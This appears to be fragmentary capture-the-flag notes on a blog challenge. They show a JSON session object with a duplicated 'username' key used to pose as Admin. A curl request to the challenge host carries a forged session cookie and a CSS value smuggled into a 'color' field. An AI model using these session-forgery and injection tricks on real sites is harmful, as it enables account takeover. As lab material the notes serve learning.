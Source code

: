 Stuff posted by Admin

0cbc6611f5540bd0809a388dc95a615b
668114a82c02ba40633c93a731f5a1d6e106e4
4e1243bd22c66e76c2ba9eddc1f91394e57f9f83

2413fb3709b05939f04cf2e92f7d0897fc2596f9ad0b8a9ea855c7bfebaae892


Blog made by pop_eax


{
  "logged_in": true,
  "username": "Admin", "username": "t"
}

curl 'http://two.jh2i.com:50027/customize' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Accept: application/json, text/javascript, */*; q=0.01' \
  -H 'DNT: 1' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://two.jh2i.com:50027' \
  -H 'Referer: http://two.jh2i.com:50027/customize' \
  -H 'Accept-Language: en-US,en;q=0.9,la;q=0.8' \
  -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiQWRtaW5cIiwgXCJ1c2VybmFtZVwiOiBcInQifQ.XyJWpQ.EAORNrNg_nZ3lCIbFcMefkKELUw' \
  --data-binary '{"color" : "red; background: red", "size": "100px"}' \
  --compressed \
  --insecure